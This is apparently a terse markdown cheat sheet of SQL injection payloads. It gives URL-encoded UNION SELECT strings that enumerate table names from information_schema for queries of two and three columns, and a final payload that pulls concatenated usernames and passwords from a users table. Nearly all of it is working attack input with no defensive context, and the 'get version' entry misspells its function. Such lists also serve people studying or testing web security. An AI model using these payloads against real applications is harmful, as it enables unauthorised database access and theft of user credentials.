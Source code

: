 ### get version
`vesrion()`


## 2 Row
##### (1st column )
'union+select+table_name,null+from+information_schema.tables--
##### (2nd column )
'union+select+null,table_name+from+information_schema.tables--

## 3 row

### table names 
##### (1st column)
'union+select+table_name,null,null+from+information_schema.tables--
##### (2nd column )
'union+select+null,table_name,null+from+information_schema.tables--
##### (3rd column )
'union+select+null,null,table_name+from+information_schema.tables--

### concat
'union+select+null,concat(username,password)+from+users--